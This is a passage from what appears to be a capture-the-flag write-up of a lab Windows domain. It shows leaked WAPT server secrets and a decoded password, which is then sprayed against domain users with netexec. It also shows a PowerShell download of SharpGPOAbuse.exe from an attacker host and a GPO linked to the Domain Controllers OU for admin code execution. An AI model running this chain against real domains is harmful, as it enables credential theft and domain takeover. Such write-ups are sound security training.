 ```bash
log                version-full             waptpython.exe
private            waptbinaries.sha256      waptpythonw.exe
```

There are some credentials on `wapt/conf/waptserver.ini`.
```ini
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

Decoding the password gives `IXN1QmNpZ0BNZWhUZWQhUgo=`:`!suBcig@MehTed!R`

We can get the all the users and test the password against them.
```bash
export KRB5CCNAME=./f.frizzle.ccache
ntpx netexec smb frizzdc.frizz.htb -k --users | awk '{ print $5 }' | sort -u > users.txt
ntpx netexec smb frizzdc.frizz.htb -u users.txt -p '!suBcig@MehTed!R' -k
# SMB         frizzdc.frizz.htb 445    frizzdc          [+] frizz.htb\M.SchoolBus:!suBcig@MehTed!R
```

This gives us the `M.SchoolBus` user.

# M.SchoolBus

A lot of outbound privileges in this account.

![thefrizz7](/assets/img/thefrizz7.png)

WriteGPLink on two different OU's. We can use [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse) to run some code as admin.
```bash
ntpx getTGT.py 'frizz.htb/M.SchoolBus:!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb
ntpx ssh M.SchoolBus@frizz.htb
```

```powershell
PS C:\Users\M.SchoolBus> Invoke-WebRequest -Uri "http://10.10.14.9:5000/static/SharpGPOAbuse.exe" -OutFile SharpGPOAbuse.exe
PS C:\Users\M.SchoolBus> New-GPO "coolgpo"

DisplayName      : coolgpo
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : 06ea6f47-ab33-4c40-92a0-caeea21a0a98
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 8/23/2025 6:10:00 PM
ModificationTime : 8/23/2025 6:10:00 PM
UserVersion      :
ComputerVersion  :
WmiFilter        :

PS C:\Users\M.SchoolBus> New-GPLink -Name "coolgpo" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
```